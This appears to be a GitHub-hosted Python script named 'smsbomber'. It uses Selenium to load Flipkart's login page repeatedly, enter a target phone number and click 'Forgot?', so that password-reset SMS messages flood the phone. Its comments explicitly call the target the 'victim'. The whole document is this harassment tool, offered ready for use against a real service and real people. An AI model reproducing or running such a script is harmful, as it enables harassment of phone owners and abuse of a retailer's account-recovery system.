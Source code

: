 # smsbomber 
cd smsbomber (500)
from selenium import webdriver

import time

 

# create instance of Chrome webdriver

browser = webdriver.Chrome()

 

# set the frequency of sms which is approx maximum to 10 per 24 days

frequency = 10

 

# target mobile number, change it to victim's number and

# also ensure that it's registered on flipkart

mobile_number ="1234567890"

 

for i in range(frequency):

    browser.get('https://www.flipkart.com/account/login?ret=/')

 

    # find the element where we have to 

    # enter the number using the class name

    number = browser.find_element_by_xpath('//*[@id="container"]/div/div[3]/div/div[2]/div/form/div[1]/input')

 

    # automatically type the target number

    number.send_keys("1234567890")

     

    # find the element to send a forgot password

    # request using it's class name

    forgot = browser.find_element_by_link_text('Forgot?')

     

    # clicking on that element

    forgot.click()

     

    # set the interval to send each sms

    time.sleep(2)

     

# Close the browser

browser.quit()
